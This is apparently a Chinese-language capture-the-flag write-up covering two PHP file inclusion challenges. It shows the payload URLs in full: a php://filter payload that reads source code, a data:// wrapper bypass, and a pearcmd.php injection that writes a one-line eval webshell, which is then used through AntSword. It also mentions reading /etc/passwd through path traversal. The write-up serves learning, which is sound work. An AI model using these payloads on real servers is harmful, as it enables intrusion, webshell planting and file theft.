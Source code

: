 title: ctf中的奇淫技巧-利用pearcmd进行LFI漏洞复现
date: 2022-1-12 16:19:21
tags:
第一题的write up如下:
先放flag

flag{H4v3_fvn_1NcIudE!}
第一题是比较基础的一个题
首先F12查看到html页面信息中包含了提示信息
简单的一个文件包含漏洞，查看url时候发现前面是filename=.....
遂猜测存在文件上传漏洞
于是构建payload如下：
http://39.106.13.193:8010/?filename=include%2Fflag.php&submit=提交查询

没有得到flag
于是想到了php伪协议
php伪协议有关知识点如下：
https://www.cnblogs.com/wjrblogs/p/12285202.html

参考这篇blog
PHP://
1. php://filter
作用：
读取源代码并进行base64编码输出
示例：
http://127.0.0.1/cmd.php?cmd=php://filter/read=convert.base64-encode/resource=[文件名]（针对php文件需要base64编码）

参数说明：
resource=<要过滤的数据流> 这个参数是必须的。它指定了你要筛选过滤的数据流
read=<读链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
write=<写链的筛选列表> 该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
<；两个链的筛选列表> 任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。
构建最终的payload得到base64编码下的信息，进行解码后得到flag
http://39.106.13.193:8010/?filename=php://filter/read=convert.base64-encode/resource=include%2Fflag.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2

第二题的write up：
首先flag是flag{1ncLud3_1s_1nt3R3sTiNg}
这个题有点历经千辛万苦了，了解到了文件的各种知识面。
1.check绕过
首先这个题的解题点在php自身的文件里面一个新的可以利用的LFI，这里的话参照p神的一篇文章是
Docker下php的裸文件绕过，blog链接如下
 https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html 

第一个地方就是绕过check变量的检测，这里涉及到了一个函数file_get_contents函数，该函数和file() 一样,只除了 file_get_contents() 把文件读入一个字符串 ，需要让他等于“LFI”这个字符串，这里就需要用到伪协议里面data了，关键知识点如下：
data://
#
作用：
 自PHP>=5.2.0起，可以使用data://数据流封装器，以传递相应格式的数据。通常可以用来执行PHP代码。一般需要用到base64编码传输

上面我发的blog里面有非常详细的关于php伪协议的知识。建议大家看一遍。我学到了很多通过这个blog，确实是我觉得最好的。
构建的payload如下：check=data://check/plain;base64,TEZJ（这里面的TEZJ是base64编码下的”LFI“字符串）。
这里你判断有没有成功绕过的话可以判断有没有执行die函数，如果没有绕过会有一个die"no"执行。

2.Include配合php中的pearcmd
include "a",这里了。
一开始我的想法是通过input://然后传入我想执行的代码来进行cat flag但发现我太天真了.....
首先需要了解一个关于docker下PHP裸文件本地包含漏洞
链接如下
https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html

了解完相关知识后，我用的方法是不出网改本地配置的方法，原本想试一试通过本地服务器映射一个远程包含文件漏洞，但是配置出了点问题，所以配置了一下本地的。
这里的话对这个漏洞大致介绍一点：（附上以下blog，解释的十分的清晰）
https://blog.csdn.net/rfrder/article/details/121042290

补充一个知识点： url传参传入php文件是不行的，因为在传入的时候会给你编码导致无法传入，所以用burp改包的方法传入。
这里的话建议和我一样刚入门的师傅可以看一看如何利用burp进行改包发送。熟悉以下burp这个工具的使用，拦截后ctrl+R可以快速发给repeater。
https://blog.csdn.net/jinzhichaoshuiping/article/details/47324955

最后的payload如下:（部分有微小改动，便于大家思考）
?check=data://check/plain;base64,TEZJ&file=....../pearcmd.php&+-c+/tmp/***.php+-d+man_dir=<?eval($_POST[*]);?>+-s+

这里的话pearcmd路径并不是都一样的 有些环境下可能在/share里。
成功传入了我自己的马（在这里有一个方法可以测试是否传入成功，可以直接访问传入路径的传入文件，如果显示出了部分编码代表上传成功，无提示则上传失败）
然后通过antsword进行连接，经典一句话木马，连接成功。在目录下找到了flag
antsword下载地址附上
https://github.com/AntSwordProject/AntSword-Loader

该题也可以通过eval[_get[]]进行传马，因为本人水平有限，写入get失败，希望大佬指点一下利用get写入一句话shell后如何操作。具体思路师傅指点是可以利用里面的值进行执行代码操作。

最后补充一些做题时候意外发现的小技巧吧。如果靶机非动态的话利用伪协议可以阅读到一些你想知道的内容（如果有的话
通过这两个题学到了 远程文件上传（通过远程服务器包含shell），pearcmd LFI漏洞，顺便学习了如何用docker复现环境，当一些关键点卡住的时候可以手动本地搭建环境学习一下。
还有常见的一些目录日志文件，来访问服务器信息比如../../../etc/passwd等，暂时找不到那个博客了，有时间再找一找放上来。

顺便想问一下各位师傅，远程文件包含漏洞如果自己有服务器的话80端口用不了可以通过别的端口来进行包含上传shell么，今天没尝试出来
没错的话应该是第一次拿一血哈哈哈 挺开心

